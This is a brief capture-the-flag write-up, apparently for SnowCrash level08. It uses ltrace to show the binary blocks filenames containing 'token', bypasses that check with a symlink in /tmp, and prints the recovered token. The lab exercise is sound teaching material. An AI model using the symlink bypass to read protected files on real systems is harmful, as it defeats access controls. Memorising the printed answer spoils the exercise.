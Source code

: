 In this level we have a level08 binary and a token file.
if we try to cat token, we do not have the permissions.
If we run level08 with token, we see with ltrace that the binary fails if runned with "token" as argument:

```
strstr("token", "token")                                                            = "token"
printf("You may not access '%s'\n", "token"You may not access 'token')
```

So we need the content of token without run level08 with its name as argument. we could try a symlink :

``` bash
    ln -s /home/user/level08/token /tmp/remote
    level08@SnowCrash:~$ ls -l /tmp/remote
    lrwxrwxrwx 1 level08 level08 24 Sep 29 15:52 /tmp/remote -> /home/user/level08/token
    level08@SnowCrash:~$ ./level08 /tmp/remote
    quif5eloekouj29ke0vouxean

```
